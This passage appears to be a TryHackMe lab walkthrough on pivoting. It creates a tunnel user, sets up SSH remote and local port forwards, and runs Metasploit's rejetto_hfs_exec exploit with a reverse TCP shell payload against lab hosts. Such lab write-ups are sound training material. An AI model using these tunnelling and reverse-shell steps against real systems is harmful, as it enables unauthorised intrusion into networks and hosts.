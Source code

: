 For this task, we need to create a new user in our linux machine, let's do it:

```
sudo useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser


trynatunneluser!2
```

We need to start the ssh service:

```
# If we're on kali:

sudo systemctl start ssh.socket

# On arch:

sudo systemctl enable sshd
```

Now, inside of our ssh session, we need to do:

```
ssh tunneluser@10.50.46.98 -R 8888:thmdc.za.tryhackme.com:80 -L *:5555:127.0.0.1:5555 -L *:7777:127.0.0.1:7777 -N
```

Once we do all that, we need to open metasploit:

```
msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7777 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 5555

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

Once we run exploit, we can see our shell:

![Pasted image 20250516155044.png](../../../IMAGES/Pasted%20image%2020250516155044.png)
